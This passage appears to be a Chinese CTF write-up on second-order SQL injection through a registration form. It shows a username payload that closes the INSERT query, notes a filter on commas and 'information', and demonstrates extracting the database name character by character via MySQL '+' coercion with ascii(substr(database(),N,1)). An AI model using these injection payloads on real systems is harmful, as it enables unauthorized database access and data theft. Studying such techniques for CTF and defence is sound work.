 我们推测这里的语句是

	insert into tables value('$email','$username','$passwpord');

登录成功后语句：

	SELECT * FROM tables WHERE email = ''$email";

他这里注册的时候作了限制，所以联合查询这种方法不能用。

那么尝试在注册时用户名处进行闭合。

用户名处构造`group_concat(1,database()),database','1')#`

结果返回

	nnnnoooo!!!

有过滤，

暂时发现只过滤了逗号和`information_scaema`,(去测试一下其实是过滤了information)

![aruoh4.png](https://s1.ax1x.com/2020/08/05/aruoh4.png)

与其他编程语言不同，MySQL中，+(加号)只有一个功能：运算符。

如果加号运算中有字符，那么mysql就会把字符转变为数字在相加，比如`select '1'+'1a';`结果为2，转换过程跟php类似。

下面看几个例子。

```
mysql> select '1'+'1a';
+----------+
| '1'+'1a' |
+----------+
|        2 |
+----------+
1 row in set, 1 warning (0.00 sec)

mysql> select '0'+database();
+----------------+
| '0'+database() |
+----------------+
|              0 |
+----------------+
1 row in set (0.00 sec)
```

可以看到，如果使用加号这种方式来查询数据库名，那么数据库名一般不全为数字，那么他就要转化为数字，如果开头是字母，那么就变转换为了0，所以查询结果是0.

那么我们需要怎么查出数据库呢？

**可以用截取的方法，截取处每一位，然后ascii编码。**

```
mysql> select '0'+ascii(substr(database(),1,1));
+-----------------------------------+
| '0'+ascii(substr(database(),1,1)) |
+-----------------------------------+
|                               100 |
+-----------------------------------+
1 row in set (0.00 sec)

mysql> select '0'+ascii(substr(database(),2,1));
+-----------------------------------+
| '0'+ascii(substr(database(),2,1)) |
+-----------------------------------+
|                               118 |
+-----------------------------------+
1 row in set (0.00 sec)
```
